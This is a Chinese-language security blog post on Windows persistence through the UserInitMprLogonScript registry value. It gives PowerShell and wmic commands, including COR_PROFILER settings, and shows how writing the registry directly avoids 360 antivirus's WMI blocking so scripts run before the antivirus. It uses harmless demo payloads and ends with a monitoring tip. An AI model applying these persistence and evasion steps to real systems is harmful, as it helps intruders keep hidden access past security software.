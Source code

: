 ```yaml
---
layout: post
title: Use Logon Scripts to maintain persistence
---
```


## 0x00 前言
---

依旧是对后门利用方法做介绍，本次介绍的是使用Logon Scripts的方法。然而我在研究过程中发现了一个特别的用法，脚本优先于杀毒软件执行，能够绕过杀毒软件对敏感操作的拦截，本文将要具体介绍这个技巧。

**注:**

有些杀毒软件是可以做到优先于Logon Scripts启动的

## 0x01 简介
---

- Logon Scripts用法
- 绕过360对wmi调用的拦截
- 特别用法

## 0x02 Logon Scripts用法
---

思路来自于Adam@Hexacorn，地址如下：

http://www.hexacorn.com/blog/2014/11/14/beyond-good-ol-run-key-part-18/

### 简要介绍Logon Scripts的用法

注册表路径：`HKCU\Environment\`

创建字符串键值： `UserInitMprLogonScript`

键值设置为bat的绝对路径：`c:\test\11.bat`

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-8-9/1-1.png)

bat内容如下：

`start calc.exe`

注销，登录

执行脚本11.bat，弹出计算器


## 0x03 绕过360对通过wmi修改环境变量的拦截
---

在之前的文章[《Use CLR to maintain persistence》](https://3gstudent.github.io/Use-CLR-to-maintain-persistence)提到过使用wmic修改环境变量的方法

命令如下：

```
wmic ENVIRONMENT create name="COR_ENABLE_PROFILING",username="%username%",VariableValue="1"

wmic ENVIRONMENT create name="COR_PROFILER",username="%username%",VariableValue="{11111111-1111-1111-1111-111111111111}"
```

然而，360会对WMI的操作进行拦截，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-8-9/2-1.png)

其实通过WMI添加环境变量等价于在注册表`HKCR\Environment\`新建键值

所以对WMI的操作可以通过写注册表的操作进行代替


以上WMI命令可替换为如下powershell代码：

```
New-ItemProperty "HKCU:\Environment\" COR_ENABLE_PROFILING -value "1" -propertyType string | Out-Null

New-ItemProperty "HKCU:\Environment\" COR_PROFILER -value "{11111111-1111-1111-1111-111111111111}" -propertyType string | Out-Null
```

## 0x04 特别用法
---

源于我的一个特别的想法

我在对该技巧研究的过程中，产生了一个有趣的想法，Logon Scripts启动的顺序是否优先于其他程序呢？

如果是的话，那么是否也优先于杀毒软件呢？

下面开始我的测试：


### 1、cmd输入如下代码

```
wmic ENVIRONMENT create name="test",username="%username%",VariableValue="I run faster!"
```

不出意外，被拦截


### 2、设置Logon Scripts

11.bat代码如下：

```
wmic ENVIRONMENT create name="test",username="%username%",VariableValue="I run faster!"
reg query HKEY_CURRENT_USER\Environment /V test
pause
```

### 3、启用Logon Scripts

注册表路径：`HKCR\Environment\`

创建字符串键值： `UserInitMprLogonScript`

键值设置为bat的绝对路径：`c:\test\11.bat`

由于调用WMI会被拦截，可以通过powershell实现，代码如下：

```
New-ItemProperty "HKCU:\Environment\" UserInitMprLogonScript -value "c:\test\11.bat" -propertyType string | Out-Null
```

### 4、注销，重新登录，测试

如果注册表`HKCR\Environment\`成功被写入键值`test` `REG_SZ` `I run faster!`，说明Logon Scripts优先于杀毒软件执行，绕过杀毒软件的限制


完整操作如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-8-9/3.gif)

测试成功，验证我们的结论

## 0x05 防御
---

监控注册表键值`HKCR\Environment\UserInitMprLogonScript`


## 0x06 小结
---

本文对Logon Scripts的用法进行了测试，并且介绍了一个特别用法，Logon Scripts能够优先于杀毒软件执行，绕过杀毒软件对敏感操作的拦截。
站在防御的角度，要对此保持警惕。


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)
